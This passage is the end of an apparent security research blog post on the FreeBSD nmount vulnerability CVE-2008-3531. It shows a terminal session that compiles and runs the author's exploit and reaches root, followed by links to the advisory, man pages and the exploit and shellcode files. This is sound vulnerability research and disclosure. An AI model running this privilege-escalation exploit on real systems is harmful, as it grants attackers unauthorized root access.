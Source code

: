 <span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ <span style="color: #c20cb9; font-weight: bold;">gcc</span> <span style="color: #660033;">-Wall</span> cve-<span style="color: #000000;">2008</span>-<span style="color: #000000;">3531</span>.c <span style="color: #660033;">-o</span> cve-<span style="color: #000000;">2008</span>-<span style="color: #000000;">3531</span>
<span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ .<span style="color: #000000; font-weight: bold;">/</span>cve-<span style="color: #000000;">2008</span>-<span style="color: #000000;">3531</span>
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> vptr = 0x006e776f
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> calling nmount<span style="color: #7a0874; font-weight: bold;">&#40;</span><span style="color: #7a0874; font-weight: bold;">&#41;</span>
nmount: Unknown error: <span style="color: #660033;">-1036235776</span>
<span style="color: #7a0874; font-weight: bold;">&#91;</span>argp<span style="color: #000000; font-weight: bold;">@</span>leon ~<span style="color: #7a0874; font-weight: bold;">&#93;</span>$ <span style="color: #c20cb9; font-weight: bold;">id</span>
<span style="color: #007800;">uid</span>=<span style="color: #000000;"></span><span style="color: #7a0874; font-weight: bold;">&#40;</span>root<span style="color: #7a0874; font-weight: bold;">&#41;</span> <span style="color: #007800;">gid</span>=<span style="color: #000000;"></span><span style="color: #7a0874; font-weight: bold;">&#40;</span>wheel<span style="color: #7a0874; font-weight: bold;">&#41;</span> <span style="color: #007800;">egid</span>=<span style="color: #000000;">1001</span><span style="color: #7a0874; font-weight: bold;">&#40;</span>argp<span style="color: #7a0874; font-weight: bold;">&#41;</span> <span style="color: #007800;">groups</span>=<span style="color: #000000;">1001</span><span style="color: #7a0874; font-weight: bold;">&#40;</span>argp<span style="color: #7a0874; font-weight: bold;">&#41;</span></pre>
      </td>
    </tr>
  </table>
</div>

And this concludes my post. I hope you enjoyed reading this as much as I enjoyed writing it.

 [1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3531
 [2]: http://security.freebsd.org/advisories/FreeBSD-SA-08:08.nmount.asc
 [3]: http://www.freebsd.org/cgi/man.cgi?query=nmount&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [4]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=8&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [5]: http://www.freebsd.org/cgi/man.cgi?query=mmap&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [6]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=3&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [7]: http://census-labs.com/research/#kernexp
 [8]: http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-cesare.pdf
 [9]: http://census-labs.com/media/cve-2008-3531-kernelcode.s
 [10]: http://census-labs.com/media/cve-2008-3531.c
